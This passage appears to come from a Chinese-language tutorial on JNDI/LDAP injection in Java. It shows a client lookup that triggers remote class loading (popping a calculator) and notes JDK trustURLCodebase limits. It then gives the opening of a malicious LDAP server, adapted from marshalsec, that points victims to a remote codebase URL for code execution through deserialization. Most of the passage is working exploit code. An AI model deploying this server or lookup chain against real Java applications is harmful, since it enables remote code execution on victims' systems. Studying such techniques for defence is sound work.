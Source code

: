 ```java
    }
}
```
最后在客户端发起查询，远程类被加载后会弹出计算器。
```java
public class MainLDAP {
    public static void main(String[] args) throws Exception {
//        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");
        Context ctx = new InitialContext();
        ctx.lookup("ldap://localhost:1389/Foo");
        ctx.close();
    }
}
```
jdk 版本 11.0.1、8u191、7u201、6u211 时加入了 com.sun.jndi.rmi.object.trustURLCodebase 的限制。只有将 com.sun.jndi.rmi.object.trustURLCodebase 设置。


## SerializedData 反序列化利用（通用）
反序列化利用链非常好理解，deserializeObject 方法内部直接调用了 readObject 方法，构造恶意 LDAP 服务器时，也可以在 [marshalsec/src/main/java/marshalsec/jndi/LDAPRefServer.java at master · mbechler/marshalsec · GitHub](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java) 的基础之上进行修改。

代码如下：
```java
public class AttackWithSerializedData {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] argx ) {
        int port = 1389;
        String[] args = new String[]{"http://192.168.137.98:5000/#Test"};
        if ( args.length < 1 || args[ 0 ].indexOf('#') < 0 ) {
            System.err.println(AttackWithReference.class.getSimpleName() + " <codebase_url#classname> [<port>]"); //$NON-NLS-1$
            System.exit(-1);
        }
        else if ( args.length > 1 ) {
            port = Integer.parseInt(args[ 1 ]);
        }

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new AttackWithSerializedData.OperationInterceptor(new URL(args[0])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

```